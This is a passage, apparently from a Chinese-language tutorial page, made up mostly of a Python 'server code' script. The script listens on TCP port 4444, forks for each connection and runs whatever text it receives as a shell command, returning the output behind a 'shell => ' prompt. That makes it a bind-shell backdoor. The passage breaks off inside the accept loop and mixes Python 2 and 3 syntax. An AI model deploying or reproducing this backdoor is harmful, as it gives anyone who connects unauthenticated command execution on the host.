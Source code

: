 ```

server.close() 
```

服务器代码：

```
import os,sys
import socket
import time
from subprocess import Popen,PIPE,STDOUT,call

HOST = ''                              
PORT = 4444
socksize = 4096                            
activePID = []

conn = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
conn.bind((HOST, PORT))
conn.listen(5)
print("Listening on TCP port %s" % PORT)

def reaper():                              
    while activePID:                        
        pid,stat = os.waitpid(0, os.WNOHANG)     
        if not pid: break
        activePID.remove(pid)

def handler(connection):                    
    time.sleep(3)     

    while True:                                     
        cmd = connection.recv(socksize)
        proc = Popen(cmd,
              shell=True,
             stdout=PIPE,
             stderr=PIPE,
              stdin=PIPE,
              )
        stdout, stderr = proc.communicate()

        if cmd == ":killme":
            connection.close()
            sys.exit(0)

        elif proc:
            connection.send( stdout )
            connection.send("\nshell => ")

    connection.close() 
    os._exit(0)

def accept():                                
    while 1:   
        global connection                                  
        connection, address = conn.accept()
        print "[!] New connection!"
        connection.send("\nshell => ")
        reaper()
        childPid = os.fork()                     # forks the incoming connection and sends to conn handler
        if childPid == 0:
            handler(connection)
        else:
```